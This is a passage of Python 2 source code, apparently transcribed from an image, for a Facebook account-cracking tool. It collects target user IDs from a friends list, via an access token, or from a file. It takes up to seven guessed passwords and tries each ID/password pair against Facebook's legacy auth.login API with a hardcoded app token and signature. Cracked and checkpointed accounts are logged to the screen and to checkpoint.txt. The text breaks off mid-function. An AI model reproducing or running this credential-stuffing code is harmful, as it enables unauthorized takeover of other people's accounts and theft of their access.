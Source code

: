			choice_menu()
		r = session.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z["data"]:
			id.append(i["id"])
	elif bch =="3":
		os.system("clear")
		print (logo)
		print (40*"-")
		try:
			idlist = raw_input("[✓] Enter File Path  : ")
			pass1=raw_input(" Put Password No 1 : ")
			pass2=raw_input(" Put Password No 2 : ")
			pass3=raw_input(" Put Password No 3 : ")
			pass4=raw_input(" Put Password No 4 : ")
			pass5=raw_input(" Put Password No 5 : ")
			pass6=raw_input(" Put Password No 6 : ")
			pass7=raw_input(" Put Password No 7 : ")
			for line in open(idlist,"r").readlines():
				id.append(line.strip())
		except IOError:
			print ("[!] File Not Found")
			raw_input("\n[ Back ]")
			choice_menu()
	elif bch =="0":
		menu()
	else:
		print ("[!] Fill in correctly")
		choice_action()
	xxx = str(len(id))
	psb ("[✓] Total Friends: "+xxx)
	time.sleep(0.5)
	psb ("[✓] Please wait, process is running ...")
	time.sleep(0.5)
	psb ("[!] To Stop Process Press CTRL Then Press z")
	time.sleep(0.5)
	print (40*"-")
	print
	
			
	def main(arg):
		global cpb,oks
		user = arg
		try:
			a = session.get("https://graph.facebook.com/"+user+"/?access_token="+toket)
			b = json.loads(a.text)
		except OSError:
			pass
		try:
			a = session.get("https://graph.facebook.com/"+user+"/?access_token="+toket)
			b = json.loads(a.text)
			data1 = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass1 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			q1 = json.loads(data1.text)
			if "access_token" in q1:
				print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass1
				oks.append(user+pass1)
			else:
				if "www.facebook.com" in q1["error_msg"]:
					print "[Checkpoint] " + user + " | " + pass1
					cps = open("checkpoint.txt", "a")
					cps.write(user+"|"+pass1+"\n")
					cps.close()